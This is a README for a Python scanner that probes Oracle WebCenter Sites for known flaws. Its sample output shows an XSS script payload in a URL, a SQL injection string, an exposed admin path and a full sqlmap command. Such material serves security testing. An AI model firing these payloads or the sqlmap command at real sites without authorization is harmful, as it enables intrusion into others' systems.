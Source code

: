 # wcs_scanner
#### WebCenter Sites Vulnerability Scanner

Scan Oracle WebCenter Sites platform looking for its known vulnerabilities.

### Usage
```python
python3 wcs_scanner.py http://example.com
```

**Example output**
```text
[!] Start scanning http://example.com

[*] Look for default login page
[-] Default login page not found

[*] Testing XSS
[+] Possible XSS found: http://example.com/cs/Satellite?c=qqqq&cid=qqqq&pagename=OpenMarket/Gator/FlexibleAssets/AssetMaker/confirmmakeasset&cs_imagedir=qqq"><script>alert(24)</script>
[...]

[*] Testing Broken Access Control
[+] Possible Broken Access Control found: http://example.com/cs/Satellite?pagename=OpenMarket/Xcelerate/Admin/WebReferences

[*] Testing SQL Injection
[+] Possible SQLi found POST /cs/ContentServer {'_authkey_': '...', 'pagename': 'OpenMarket/Xcelerate/Admin/WebReferences', 'op': 'search', 'urlsToDelete': '', 'resultsPerPage': 25, 'searchChoice': 'webroot', 'searchText': "' or '1'='1 -- "}
[*] You should test this with sqlmap:
sqlmap --dbms Oracle --url http://example.com/cs/ContentServer --data "_authkey_=...&pagename=OpenMarket/Xcelerate/Admin/WebReferences&op=search&urlsToDelete=&resultsPerPage=25&searchChoice=webroot&searchText=*" --cookie "JSESSIONID=..." --technique U

```

## Reference:
- https://outpost24.com/blog/Vulnerabilities-discovered-in-Oracle-WebCenter-Sites
- https://www.exploit-db.com/exploits/44752


### TODO
Nuclei templates for:
- cve-2019-2578
- cve-2019-2579
